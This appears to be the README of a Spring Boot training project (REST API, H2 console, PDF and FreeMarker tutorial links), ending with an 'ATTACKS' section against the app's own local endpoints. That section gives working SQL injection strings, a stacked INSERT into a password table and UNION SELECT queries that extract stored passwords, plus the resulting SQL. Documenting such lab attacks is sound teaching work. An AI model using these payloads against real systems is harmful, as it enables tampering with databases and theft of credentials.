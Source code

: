 #Spring Advanced #57 Task 4

REST API

##To start use
http://localhost:8084/

@@H2 console
http://localhost:8084/h2-console


##Thanks to FreeMarker tutorial
http://zetcode.com/springboot/freemarker/

##PDF
http://zetcode.com/articles/springbootpdfreport/

##Exception
https://spring.io/blog/2013/11/01/exception-handling-in-spring-mvc


##PDF with itextpdf
https://www.logicbig.com/tutorials/spring-framework/spring-web-mvc/pdf-view.html


##PDF with HMC
https://www.logicbig.com/tutorials/spring-framework/spring-web-mvc/custom-http-message-converter.html


##PDF - Spring MVC
https://www.tutorialspoint.com/springmvc/springmvc_pdf.htm
https://www.baeldung.com/spring-httpmessageconverter-rest





#Exam
5
http://www.k-press.ru/cs/2009/1/ts/ts.asp




***************************************************************************************
*****************************          ATTACKS             *******************************
***************************************************************************************
# SQL injections attacks
1) Inserting data into any table
* SQL injection
Attack vector: http://localhost:8084/editUser?userId=1
    Field: any text field - i.e. Phone Operator
* attack string
    ';  INSERT INTO usersPasswords(name, password) VALUES('Leo333', '333Password'); --
Resulting SQL _________________________________________________________________________**********************************************************************************_____________________________
    UPDATE users SET  name = 'Ivan', phoneNumber = '233234234', phoneOperator = 'Orange';  INSERT INTO usersPasswords(name, password) VALUES('Leo333', '333Password'); --', balance = 43200 WHERE id=1;


2) Enumerating data from any table by 1 row
* SQLi UNION
Attack vector: http://localhost:8084/api/user/1
    Field - 1
* attack string
    ' UNION SELECT id, name, password, password, id FROM usersPasswords LIMIT 1,1--'
    '%20UNION%20SELECT%20id,%20name,%20password,%20password,%20id%20FROM%20usersPasswords%20LIMIT%202,1--'
Resulting SQL _____________________********************************************************************************_
    SELECT * FROM users WHERE id='1' UNION SELECT id, name, password, password, id FROM usersPasswords LIMIT 1,1--''
